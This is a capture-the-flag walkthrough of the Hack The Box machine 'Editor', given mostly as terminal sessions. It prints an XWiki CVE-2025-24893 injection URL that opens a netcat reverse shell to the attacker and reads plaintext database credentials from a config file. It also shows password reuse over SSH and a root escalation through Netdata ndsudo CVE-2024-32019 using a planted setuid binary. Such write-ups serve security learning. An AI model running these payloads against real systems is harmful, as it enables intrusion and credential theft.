

# Target
| Category          | Details                                                                                                                                                           |
|-------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 📝 **Name**       | [Editor](https://app.hackthebox.com/machines/Editor)                                                                                                              |  
| 🏷 **Type**       | HTB Machine                                                                                                                                                       |
| 🖥 **OS**         | Linux                                                                                                                                                             |
| 🎯 **Difficulty** | Easy                                                                                                                                                              |
| 📁 **Tags**       | XWiki 15.10.8, [CVE-2025-24893](https://nvd.nist.gov/vuln/detail/CVE-2025-24893), ndsudo 1.45.2 [CVE-2024-32019](https://nvd.nist.gov/vuln/detail/CVE-2024-32019) |

### User flag

#### Scan target with `nmap`
```
┌──(magicrc㉿perun)-[~/attack/HTB Editor]
└─$ nmap -sS -sC -sV  -p- $TARGET
Starting Nmap 7.98 ( https://nmap.org ) at 2026-06-07 18:57 +0200
Nmap scan report for 10.129.231.23
Host is up (0.032s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editor.htb/
8080/tcp open  http    Jetty 10.0.20
| http-methods: 
|_  Potentially risky methods: PROPFIND LOCK UNLOCK
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
|_http-server-header: Jetty(10.0.20)
|_http-open-proxy: Proxy might be redirecting requests
| http-robots.txt: 50 disallowed entries (15 shown)
| /xwiki/bin/viewattachrev/ /xwiki/bin/viewrev/ 
| /xwiki/bin/pdf/ /xwiki/bin/edit/ /xwiki/bin/create/ 
| /xwiki/bin/inline/ /xwiki/bin/preview/ /xwiki/bin/save/ 
| /xwiki/bin/saveandcontinue/ /xwiki/bin/rollback/ /xwiki/bin/deleteversions/ 
| /xwiki/bin/cancel/ /xwiki/bin/delete/ /xwiki/bin/deletespace/ 
|_/xwiki/bin/undelete/
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Type: Jetty(10.0.20)
|_  Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, LOCK, UNLOCK
| http-title: XWiki - Main - Intro
|_Requested resource was http://10.129.231.23:8080/xwiki/bin/view/Main/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.69 seconds
```

#### Discover XWiki 15.10.8 running on target
```
┌──(magicrc㉿perun)-[~/attack/HTB Editor]
└─$ curl -L http://$TARGET:8080
<SNIP>            <div id="xwikiplatformversion">
                    <a href="https://extensions.xwiki.org?id=org.xwiki.platform:xwiki-platform-distribution-debian-common:15.10.8:::/xwiki-commons-pom/xwiki-platform/xwiki-platform-distribution/xwiki-platform-distribution-debian/xwiki-platform-distribution-debian-common">
                XWiki Debian 15.10.8
              </a>
          </div>
<SNIP>
```
This version is vulnerable to [CVE-2025-24893](https://nvd.nist.gov/vuln/detail/CVE-2025-24893).

#### Start `nc` to listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Editor]
└─$ nc -lvnp $LPORT
listening on [any] 4444 ...
```

#### Exploit [CVE-2025-24893](https://nvd.nist.gov/vuln/detail/CVE-2025-24893) to spawn reverse shell connection
[gunzf0x/CVE-2025-24893](https://github.com/gunzf0x/CVE-2025-24893) has been used.
```
┌──(magicrc㉿perun)-[~/attack/HTB Editor]
└─$ git clone -q https://github.com/gunzf0x/CVE-2025-24893.git && \
python3 ./CVE-2025-24893/CVE-2025-24893.py -t http://$TARGET:8080 -c "busybox nc $LHOST $LPORT -e /bin/bash"
[*] Attacking http://10.129.13.213:8080
[*] Injecting the payload:
http://10.129.13.213:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7D%22busybox%20nc%2010.10.14.69%204444%20-e%20/bin/bash%22.execute%28%29%7B%7B/groovy%7D%7D%7B%7B/async%7D%7D
[*] Command executed

~Happy Hacking
```

#### Confirm foothold gained
```
connect to [10.10.14.69] from (UNKNOWN) [10.129.13.213] 33218
id
uid=997(xwiki) gid=997(xwiki) groups=997(xwiki)
```

#### List users with shell access
```
xwiki@editor:~$ grep bash /etc/passwd
root:x:0:0:root:/root:/bin/bash
oliver:x:1000:1000:,,,:/home/oliver:/bin/bash
```

#### Discover XWiki database credentials
```
xwiki@editor:~$ cat /usr/lib/xwiki-jetty/webapps/xwiki/WEB-INF/hibernate.cfg.xml 
<SNIP>
    <property name="hibernate.connection.url">jdbc:mysql://localhost/xwiki?useSSL=false&amp;connectionTimeZone=LOCAL&amp;allowPublicKeyRetrieval=true</property>
    <property name="hibernate.connection.username">xwiki</property>
    <property name="hibernate.connection.password">theEd1t0rTeam99</property>
    <property name="hibernate.connection.driver_class">com.mysql.cj.jdbc.Driver</property>
    <property name="hibernate.dbcp.poolPreparedStatements">true</property>
    <property name="hibernate.dbcp.maxOpenPreparedStatements">20</property>
<SNIP>
```

#### Reuse `theEd1t0rTeam99` password to access target over SSH as `oliver` user
```
┌──(magicrc㉿perun)-[~/attack/HTB Editor]
└─$ ssh oliver@$TARGET                        
<SNIP>
oliver@editor:~$ id
uid=1000(oliver) gid=1000(oliver) groups=1000(oliver),999(netdata)
```

#### Capture user flag
```
oliver@editor:~$ cat /home/oliver/user.txt 
fb922fb161878a41af8d95ee06f10505
```

### Root flag

#### Discover Netdata `ndsudo` available on target
Binary discovered with `linepeas`.
```
-rwsr-x--- 1 root netdata 196K Apr  1  2024 /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo (Unknown SUID binary!)
```

#### Confirm Netdata is running at port 19999
```
oliver@editor:~$ curl -I 127.0.0.1:19999/
HTTP/1.1 400 Bad Request
Connection: close
Server: Netdata Embedded HTTP Server v1.45.2
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
Date: Tue, 09 Jun 2026 12:11:13 GMT
Content-Type: text/plain; charset=utf-8
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Expires: Tue, 09 Jun 2026 12:11:13 GMT
Content-Length: 43
X-Transaction-ID: ef61e824901e40ec985256075794e33e
```

#### Forward port 19999
```
┌──(magicrc㉿perun)-[~/attack/HTB Editor]
└─$ ssh -L 19999:127.0.0.1:19999  oliver@$TARGET 
```

#### Identify Netdata 1.45.2 running on target


In this version `ndsudo` is vulnerable to [CVE-2024-32019](https://nvd.nist.gov/vuln/detail/CVE-2024-32019).

#### Exploit [CVE-2024-32019](https://nvd.nist.gov/vuln/detail/CVE-2024-32019) to escalate to `root` user
```
┌──(magicrc㉿perun)-[~/attack/HTB Editor]
└─$ { cat <<'EOF'> nvme.c
#include <unistd.h>

int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
EOF
} && gcc nvme.c -o nvme -Wl,--suppress-unknown-sframe-entries 2>/dev/null; \
scp -q nvme oliver@$TARGET:~/
oliver@10.129.13.213's password:
```

```
oliver@editor:~$ export PATH=/home/oliver:$PATH
oliver@editor:~$ /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
root@editor:/home/oliver# id
uid=0(root) gid=0(root) groups=0(root),999(netdata),1000(oliver)
```

#### Capture root flag
```
root@editor:/# cat /root/root.txt 
1cff1a97ed5ba2c66074597b01556112
```
